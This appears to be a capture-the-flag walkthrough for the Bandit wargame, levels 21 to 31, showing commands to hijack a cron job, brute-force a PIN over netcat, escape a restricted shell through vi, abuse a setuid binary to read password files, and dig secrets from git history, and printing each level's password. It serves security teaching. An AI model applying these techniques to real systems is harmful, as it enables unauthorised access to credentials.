




# Bandit Wargame Walkthrough (Level 21 - 31)

This final part covers advanced topics like Cron jobs, shell scripting, and Git version control.

## Level 21 -> 22


### Goal
The password is run by a **cron job** (a task scheduler). We need to find what command it runs.

### Steps
1.  Cron jobs are usually stored in `/etc/cron.d/`.
    ```bash
    ls /etc/cron.d/
    ```
2.  Read the relevant file: `cronjob_bandit22`.
    ```bash
    cat /etc/cron.d/cronjob_bandit22
    ```
3.  It points to a script: `/usr/bin/cronjob_bandit22.sh`. Read it:
    ```bash
    cat /usr/bin/cronjob_bandit22.sh
    ```
4.  The script copies the password from `/etc/bandit_pass/bandit22` to a temporary file in `/tmp`.
5.  Read that temp file:
    ```bash
    cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
    ```
6.  **Password found:** `tRae0UfB9v0UzbCdn9cY0gQnds9GF58Q`

### Beginner Tip: Cron
Cron is a Linux utility that runs commands automatically at specified times. It's often used for backups and maintenance.

---

## Level 22 -> 23


### Goal
Similar to the previous level, but the filename is generated dynamically using an MD5 hash of the username.

### Steps
1.  Read the cron job for `bandit23`: `/etc/cron.d/cronjob_bandit23`.
2.  Read the script: `/usr/bin/cronjob_bandit23.sh`.
    ```bash
    cat /usr/bin/cronjob_bandit23.sh
    ```
3.  The script uses the command: `echo I am user $myname | md5sum`.
4.  We need to simulate this for user `bandit23`:
    ```bash
    echo I am user bandit23 | md5sum | cut -d ' ' -f 1
    ```
5.  The result is `8ca319486bfbbc3663ea0fbe81326349`.
6.  The password file is at `/tmp/8ca319486bfbbc3663ea0fbe81326349`. Read it.
7.  **Password found:** `0Zf11ioIjMVN551jX3CmStKLYqjk54Ga`

---

## Level 23 -> 24



### Goal
Create your own shell script that the `bandit24` cron job will execute. Our script will copy the password to a place we can read.

### Steps
1.  Create a temporary directory:
    ```bash
    mkdir /tmp/myscript
    cd /tmp/myscript
    ```
2.  Create a script named `copy.sh`:
    ```bash
    echo "#!/bin/bash" > copy.sh
    echo "cat /etc/bandit_pass/bandit24 > /tmp/myscript/password" >> copy.sh
    ```
3.  **Crucial Step:** Give it execute permissions (`chmod 777`) so anyone can run it.
    ```bash
    chmod 777 copy.sh
    chmod 777 /tmp/myscript
    ```
4.  Copy the script to the folder where the cron job looks (`/var/spool/bandit24/foo`):
    ```bash
    cp copy.sh /var/spool/bandit24/foo/
    ```
5.  Wait for the cron job to run (up to 60 seconds).
6.  Check your output file:
    ```bash
    cat /tmp/myscript/password
    ```
7.  **Password found:** `gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8`

---

## Level 24 -> 25


### Goal
A service on port 30002 requires the current password + a 4-digit PIN. We need to try all 10,000 combinations (0000-9999).

### Steps
1.  Manually typing 10,000 PINs is impossible. Use a `for` loop in bash.
2.  Write a one-line script:
    ```bash
    for i in {0000..9999}; do echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"; done | nc localhost 30002
    ```
    *This generates all combinations and pipes them to netcat.*
3.  The output will be huge. Filter out the "Wrong" attempts:
    ```bash
    ... | grep -v "Wrong"
    ```
4.  **Password found:** `iCi86ttT4KSNe1armKiwbQNmB3YJP3q4`

### Command Explanation
- `{0000..9999}`: Bash expansion that generates numbers from 0000 to 9999.
- `grep -v`: Invert match (show lines that do **not** contain the pattern).

---

## Level 25 -> 26



### Goal
Login to `bandit26`. The shell is restricted to standard input, but we can break out.

### Steps
1.  Login with the private key:
    ```bash
    ssh -i bandit26.sshkey bandit26@localhost
    ```
2.  The shell forces you into `more` (a pager) to read a file.
3.  Make your terminal window very small so the text doesn't fit. `more` will pause at the bottom.
4.  Press `v` to open the visual editor (`vi` or `vim`).
5.  In `vi`, you can run shell commands! Type `:set shell=/bin/bash` then press Enter.
6.  Type `:shell` to launch a bash shell.
7.  **Success!** You are now in a shell.
8.  Read the key for the next level:
    ```bash
    cat bandit26.sshkey
    ```
9.  Save this key to your local machine as `bandit26.private` (chmod 600).

---

## Level 26 -> 27


### Goal
Run a setuid binary `bandit27-do` to elevate privileges.

### Steps
1.  Login to `bandit26` using the key you saved.
2.  Use the same trick (resize terminal, `v` in more, `:set shell=/bin/bash`, `:shell`) to get a shell.
3.  Run the binary:
    ```bash
    ./bandit27-do cat /etc/bandit_pass/bandit27
    ```
4.  **Password found:** `upsNCc7vzaRDx6oZC6GiR6ERwe1MowGB`

---

## Level 27 -> 28



### Goal
The password is in a **Git repository**.

### Steps
1.  Create a temporary directory: `mkdir /tmp/myrepo && cd /tmp/myrepo`.
2.  Clone the repository using the password from the previous level:
    ```bash
    git clone ssh://bandit27-git@localhost:2220/home/bandit27-git/repo
    ```
3.  Enter password `upsNCc...`.
4.  Read the `README` file in the cloned repo:
    ```bash
    cat repo/README
    ```
5.  **Password found:** `Yz9IpL0sBcCeuG7m9uQFt8ZNpS4HZRcN`

### Beginner Tip: Git
Git is a version control system used by developers. `git clone` downloads a complete copy of a repository.

---

## Level 28 -> 29


### Goal
The password was deleted from the file, but Git remembers history.

### Steps
1.  Clone the repo `bandit28-git` (password: `Yz9Ip...`).
2.  Use `git log` to see history.
3.  Use `git log -p` to see the **patches** (changes) for each commit.
    ```bash
    git log -p
    ```
4.  Scroll down to find a commit where `README.md` was changed. You will see the password deleted in red (`-`) or added in green (`+`).
5.  **Password found:** `4pT1t5DENaYuqnqvadYs1oE4QLCdjmJ7`

---

## Level 29 -> 30


### Goal
The password is in a different **branch**.

### Steps
1.  Clone the repo `bandit29-git`.
2.  Check for other branches:
    ```bash
    git branch -a
    ```
3.  You will see `remotes/origin/dev`. Switch to it:
    ```bash
    git checkout dev
    ```
4.  Read `README.md` again.
5.  **Password found:** `qp30ex3VLz5MDG1n91YowTv4Q8l7CDZL`

---

## Level 30 -> 31



### Goal
The password is in a **Git tag**.

### Steps
1.  Clone the repo `bandit30-git`.
2.  List tags:
    ```bash
    git tag
    ```
3.  You will see a tag named `secret`. Examine it:
    ```bash
    git show secret
    ```
4.  **Password found:** `fb5S2xb7bRyFmAvQYQGEqsbhVyJqhnDy`

---

## Conclusion
You have reached Level 31! The next level involves pushing changes to a remote repository (`git push`), which marks the end of this walkthrough.

**Key Takeways:**
- **Linux:** Comfortable with standard commands (`ls`, `cd`, `cat`, `grep`, `find`).
- **Permissions:** Understanding user/group ownership and setuid.
- **Networking:** Using `ssh`, `nc`, `nmap`, and SSL.
- **Git:** Basics of cloning, logging, branching, and tagging.

Happy Hacking!
